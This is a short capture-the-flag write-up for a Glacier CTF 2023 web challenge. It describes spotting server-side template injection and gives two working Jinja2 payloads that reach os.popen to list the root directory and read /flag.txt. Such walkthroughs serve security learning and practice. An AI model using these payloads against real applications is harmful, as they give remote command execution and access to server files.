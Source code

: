 ```yaml
---
author: pl4int3xt
layout: post
title: Glacier CTF 2023
date: '2023-11-25 10:44:23 +0300'
// cover: img/cover_images/46.png
description: "Glacier CTF 2023"
categories: [Capture the flag]
---
```


> I just created my first website! You can even do some calculations! Don't forget to check out my other projects!
author: Chr0x6eOs

We open the website and there is nothing interesting and so we try to check out the other projects 

![img-description](/img/glacier-ctf-2023/1.png)

We are brought to this page and immediately what pops in my brain is SSTI

![img-description](/img/glacier-ctf-2023/2.png)

I try injecting something to see the changes and indeed the website has an SSTI

![img-description](/img/glacier-ctf-2023/3.png)

Next let's check what's in the / directory and we see the file flag.txt using the following payload

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cd / && ls')['read']()}}{% endraw %}
```


![img-description](/img/glacier-ctf-2023/4.png)

Next we create a payload to read the flag.txt file

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /flag.txt')['read']()}}{% endraw %}
```

![img-description](/img/glacier-ctf-2023/5.png)

